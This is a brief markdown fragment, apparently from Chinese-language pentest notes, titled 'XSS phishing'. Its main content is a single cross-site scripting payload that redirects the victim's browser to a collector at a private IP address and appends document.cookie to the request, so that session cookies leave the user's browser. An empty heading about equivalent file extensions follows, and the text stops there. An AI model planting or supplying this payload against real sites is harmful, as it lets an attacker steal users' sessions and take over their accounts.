 # XSS 钓鱼

```javascript
<script>document.location='http://192.168.2.5:8080/pkxss/xcookie/cookie.php?cookie='+document.cookie</script>
```





等价扩展名:

